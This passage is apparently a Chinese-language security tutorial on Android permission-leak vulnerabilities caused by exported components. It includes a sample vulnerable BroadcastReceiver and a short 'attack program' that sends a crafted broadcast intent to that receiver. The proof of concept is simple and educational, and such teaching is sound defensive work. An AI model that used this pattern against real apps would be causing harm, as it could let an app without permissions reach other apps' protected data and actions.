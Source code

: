  

组件间通信的一个前提是接收方组件必须公开，Android 中的组件分为公开组件和私有组件，具体有 export 是否可导出决定，而 Android 权限泄漏漏洞就是由于不合理的公开了组件或者没有对接收的 Intent 进行合法性校验导致，其表现为将一个拥有权限的 API 通过公开组件暴露给外界，攻击者可以构造数据访问这个 API 达到权限提升的效果，一般表现为两个方面：隐私获取和动作执行

```
隐私获取：指的是攻击者通过构造数据访问存在权限泄露漏洞的程序组件，并让该组件返回隐私数据，这些数据包括短信消息、联系人信息、地理位置、邮件信息等等
动作执行：指的是攻击者构造数据访问存在权限泄露的程序组件，让该组件执行系统破坏等恶意的操作，例如结束系统服务、拨打电话、删除程序数据等

```

具体的示意图如下所示：

 

![](https://bbs.pediy.com/upload/attach/202110/905443_X7CSYK5YCA2RU3A.png)

 

应用程序 B 是一个拥有权限 P1 的应用程序，包含组件 C1，C1 组件是公开给外界，意为 export = true，并且 C1 组件可以访问权限 P1 对应的系统资源，这样另外一个没有权限 P1 的应用程序 A，可以构造 Intent 数据去启动应用程序 B 的 C1 组件，进而访问到 P1 权限对应的系统资源，拥有权限 P1 的应用程序 B 没有对权限合理的保护，引发了权限泄漏，没有权限 P1 的应用程序 A 利用这个漏洞获得了权限，导致了权限泄漏

### 2. 漏洞案例

#### [](#（1）下载文件权限泄漏漏洞)（1）下载文件权限泄漏漏洞

**目标程序：**

 

配置文件：

代码段：

```
public class Download extends BroadcastReceiver {
 
    @Override
    public void onReceive(Context context, Intent intent) {
        // TODO: This method is called when the BroadcastReceiver is receiving
        // an Intent broadcast.
        if(intent.getAction().equals("com.example.down")){
            String url = intent.getExtras().getString("url");
            String fileName = intent.getExtras().getString("fileName");
            Toast.makeText(context,"Downlaod start!"+url+"---"+fileName,Toast.LENGTH_LONG).show();
            Log.i("test",url+fileName);
        }
        //throw new UnsupportedOperationException("Not yet implemented");
    }
}

```

**攻击程序：**

```
public class MainActivity extends AppCompatActivity {
 
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent intent = new Intent();
        intent.setAction("com.example.down");
        intent.putExtra("url","https://www.baidu.com/");
        intent.putExtra("filename","baidu");
        sendBroadcast(intent);
    }
}

```